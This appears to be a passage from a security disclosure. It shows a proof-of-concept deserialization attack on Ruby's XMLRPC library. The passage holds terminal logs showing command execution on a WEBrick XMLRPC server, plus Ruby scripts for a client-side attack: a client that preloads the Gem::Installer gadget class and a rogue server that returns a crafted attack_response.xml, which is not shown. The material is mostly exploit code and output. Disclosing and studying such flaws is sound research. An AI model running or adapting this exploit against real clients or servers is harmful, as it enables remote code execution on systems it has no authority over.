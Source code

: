 
```
❯ bundle exec ruby craft_client.rb
param:

```

```
❯ bundle exec ruby xmlrpc_server.rb
[2021-05-09 20:49:35] INFO  WEBrick 1.7.0
[2021-05-09 20:49:35] INFO  ruby 2.7.1 (2020-03-31) [x86_64-darwin19]
[2021-05-09 20:49:35] INFO  WEBrick::HTTPServer#start: pid=48443 port=8080
sh: reading: command not found
2021年 5月 9日 日曜日 20時49分44秒 JST
::1 - - [09/May/2021:20:49:44 JST] "POST /RPC2 HTTP/1.1" 200 319
- -> /RPC2
```

### PoC for client attack

```ruby
# xmlrpc_client.rb

require "xmlrpc/client"

# required classes
Gem::Installer

server = XMLRPC::Client.new("localhost", "/RPC", 8080)
ok, param = server.call2("xxx", 4, 5)

if ok then
   puts "param: #{param}" # call param.to_s
else
  puts "Error:"
  puts param.faultCode
  puts param.faultString
end
```

```ruby
# craft_server.rb

require "webrick"

httpserver = WEBrick::HTTPServer.new(:Port => 8080)

httpserver.mount_proc('/RPC') do |req, res|
  res.body = File.read("./attack_response.xml")
end

trap(:INT){httpserver.shutdown}
httpserver.start
```
